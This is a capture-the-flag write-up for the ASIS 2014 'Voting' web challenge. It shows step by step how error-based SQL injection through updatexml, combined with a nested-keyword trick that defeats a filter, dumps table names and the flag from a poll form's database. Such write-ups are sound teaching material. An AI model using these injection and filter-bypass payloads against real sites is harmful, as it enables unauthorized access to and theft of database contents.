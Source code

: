 # ASIS Cyber Security Contest Finals 2014: Voting

**Category:** Web
**Points:** 175
**Description:**

> Go here:
> <http://asis-ctf.ir:12441/>

## Write-up

This website shows a poll for operating systems where the user can choose between Windows, Linux and Mac. When submitting your choice, the following data is submitted:

```
os=Linux&submit=Submit
```

That’s not a lot of data, so let’s try some basic SQL injection: `os=Linux'&submit=Submit`. This gives the following error:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''Linux''' at line 1
```

That’s very interesting. We can use this error, to give us data by creating a malformed XPATH query:

```
os=Linux'-updatexml(0,concat('.',(SELECT group_concat(table_name) FROM information_schema.columns where table_schema != 'information_schema' LIMIT 10 ),'1'),2)#&submit=Submit
```

The result:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '(0,concat('.',( group_concat(table_name) infmation_schema.columns table_schema' at line 1
```

That’s not the result we wanted, but still interesting. It appears some of our keywords were stripped, such as `where`, `select` and `from`. It also removed the `or` in `information`. Let’s try a simple trick:

```
os=Linux'-upUPDATEdatexml(0,concat('.',(SselectELECT group_concat(table_name) FfromROM infoORrmation_schema.columns wwherehere table_schema != 'infoORrmation_schema' LlimitIMIT 10 ),'1'),2)#&submit=Submit
```

This gives us `XPATH syntax error: 'tbl_flag,tbl_flag,tbl_poll,tbl_p'`. The `tbl_flag` must contain our flag.

```
os=Linux'-upUPDATEdatexml(0,concat('.',(SselectELECT substr(flag,1,30) FfromROM tbl_flag),'1'),2)#&submit=Submit
```

This results in:

```
XPATH syntax error: 'ASIS_1dc337d61dac5cb910eb5b8c11'
```

Almost there. The XPATH error has a fixed size, so our flag is incomplete. We’ll have to execute the injection one more time:

```
os=Linux'-upUPDATEdatexml(0,concat('.',(SselectELECT substr(flag,20,30) FfromROM tbl_flag),'1'),2)#&submit=Submit
```

Putting these pieces together results in `ASIS_1dc337d61dac5cb910eb5b8c17c52fef1`, which is the flag.

## Other write-ups and resources

* <http://tasteless.se/2014/10/asis-ctf-finals-2014-voting/>
